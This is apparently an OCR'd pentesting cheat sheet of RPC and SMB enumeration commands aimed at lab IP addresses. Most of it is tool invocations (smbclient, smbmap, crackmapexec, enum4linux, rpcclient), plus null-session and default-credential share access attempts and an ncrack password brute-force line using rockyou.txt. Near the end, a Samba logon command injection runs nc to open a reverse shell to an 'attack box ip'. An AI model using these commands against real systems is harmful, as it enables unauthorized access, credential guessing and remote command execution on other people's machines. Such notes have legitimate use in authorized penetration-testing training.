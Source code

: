 1 rpcclient --user="" --command=enumprivs -N 10.10.10.10
2 rpcinfo –p 10.10.10.10
3 rpcbind -p 10.10.10.10

RPC (135)

1 rpcdump.py 10.11.1.121 -p 135

2 rpcdump.py 10.11.1.121 -p 135 | grep ncacn_np // get pipe names
3
4 rpcmap.py ncacn_ip_tcp:10.11.1.121[135]

SMB (139 & 445)
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

1 nmap --script smb-protocols 10.10.10.10
2
3 smbclient -L //10.10.10.10
4 smbclient -L //10.10.10.10 -N // No password (SMB Null session)
5 smbclient --no-pass -L 10.10.10.10
6 smbclient //10.10.10.10/share_name
7
8 smbmap -H 10.10.10.10
9 smbmap -H 10.10.10.10 -u '' -p ''
10 smbmap -H 10.10.10.10 -s share_name
11
12 crackmapexec smb 10.10.10.10 -u '' -p '' --shares
13 crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares
14 crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
15 crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name
16
17 enum4linux -a 10.10.10.10
18
19 rpcclient -U "" 10.10.10.10
20 * enumdomusers
21 * enumdomgroups
22 * queryuser [rid]
23 * getdompwinfo
24 * getusrdompwinfo [rid]
25
26 ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v
27
28 mount -t cifs "//10.1.1.1/share/" /mnt/wins
29
30 mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid
31
32 SMB Shell to Reverse Shell :
33
34 smbclient -U "username%password" //192.168.0.116/sharename
35 smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash"
36
37 Checklist :
38 * Samba symlink directory traversal attack
